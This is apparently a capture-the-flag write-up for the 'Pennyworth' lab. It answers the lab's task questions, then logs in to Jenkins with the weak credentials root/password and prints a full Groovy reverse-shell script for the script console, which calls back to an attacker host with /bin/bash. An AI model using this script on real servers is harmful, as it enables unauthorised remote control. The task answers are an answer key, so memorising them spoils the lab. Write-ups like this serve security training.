


<center>Pennyworth</center>


[toc]


## Pennyworth

> Pennyworth


### 1. task

1. What does the acronym CVE stand for?

```shell
Common Vulnerabilities and Exposures
```

2. What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

```shell
Confidentiality, Integrity, Availability
```

3. What is the version of the service running on port 8080?

````shell
Jetty 9.4.39.v20210325
````

4. What version of Jenkins is running on the target?

```shell
2.289.1
```

5. What type of script is accepted as input on the Jenkins Script Console?

```shell
Groovy
```

6. What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

```shell
cmd.exe
```

7. What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

```shell
ifconfig
```

8. What switch should we use with netcat for it to use UDP transport mode?

```shell
-u
```

9. What is the term used to describe making a target host initiate a connection back to the attacker host?

```shell
reverse shell
```


### 3. flag

> 获取flag

```shell
nmap -sC -sV IP
```



> 访问8080端口。
>
> 登陆接口没做任何防御。 进行爆破

```shell
账号密码：root/password
```

> **`访问 :8080/script，利用Groovy命令获取反弹shell`**

> **在Jenkins脚本控制台中，可以编写和运行Groovy脚本，尝试在Jenkins控制台插入反弹shell脚本。**

```shell
# 在攻击机执行监听
ncat -nvlp 1234

访问target_ip:8080/script，在Jenkins控制台插入Groovy脚本，点击run运行
```

```groovy
//脚本
String host="host_ip";
int port=监听端口;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

> 获取到`shell`

